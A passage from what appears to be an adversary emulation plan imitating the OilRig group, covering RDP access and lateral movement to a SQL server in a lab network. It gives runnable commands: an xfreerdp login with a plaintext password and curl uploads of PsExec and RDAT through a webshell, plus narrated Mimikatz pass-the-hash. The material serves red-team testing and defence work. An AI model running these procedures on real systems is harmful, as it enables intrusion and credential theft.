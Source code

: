 ```bash
xfreerdp /u:'boombox\gosta' /p:'d0ntGoCH4$ingW8trfalls' /v:localhost:13389
```

<br>

### :moyai: Source Code
*  Plink command line tool: [Plink](../Resources/Plink/)

<br>

### :microscope: Cited Intelligence
*  Plink: https://unit42.paloaltonetworks.com/unit42-striking-oil-closer-look-adversary-infrastructure/
*  SSH: https://unit42.paloaltonetworks.com/oilrig-novel-c2-channel-steganography/
*  RDP: https://go.crowdstrike.com/rs/281-OBQ-266/images/Report2020CrowdStrikeGlobalThreatReport.pdf
*  RDP: https://unit42.paloaltonetworks.com/the-oilrig-campaign-attacks-on-saudi-arabian-organizations-deliver-helminth-backdoor/

<br>


## Step 8 - Lateral Movement to the SQL Server

### :microphone: Voice Track

Step 8 emulates OilRig using the credentials collected for the user `tous` in 
the previous step to move laterally to the SQL server. 

First, the webshell is used to download PsExec, RDAT, and a newly named 
Mimikatz to disk. Through the tunneled RDP, an elevated Command Prompt is opened 
and, using the NTLM hash for `tous` from the credential dump, Mimikatz pass the 
hash is executed to spawn a second shell as `tous` on `WATERFALLS (10.1.0.6)`. 
As `tous`, RDAT is copied over to `ENDOFROAD (10.1.0.7)`, then PsExec is executed 
to get a shell on `ENDOFROAD (10.1.0.7)`

---

### ☣️ Procedures

Download psexec to `WATERFALLS (10.1.0.6)` as `C:\Windows\System32\ps.exe`

```bash
# OilRig has downloaded PsExec as ps.exe

curl --http1.1 --ntlm -u 'boombox\gosta:d0ntGoCH4$ingW8trfalls' -k -X POST -F "upl=f1" -F 'sav=C:\Windows\System32' -F "vir=false" -F "nen=ps.exe" -F 'f1=@PsExec.exe' https://10.1.0.6/ews/contact.aspx
```

Download RDAT to `WATERFALLS (10.1.0.6)` as `Nt.dat`

```bash
# OilRig has saved RDAT to disk as Nt.dat

curl --http1.1 --ntlm -u 'boombox\gosta:d0ntGoCH4$ingW8trfalls' -k -X POST -F "upl=f1" -F 'sav=C:\Windows\Temp' -F "vir=false" -F "nen=Nt.dat" -F 'f1=@RDAT.exe' https://10.1.0.6/ews/contact.aspx
```
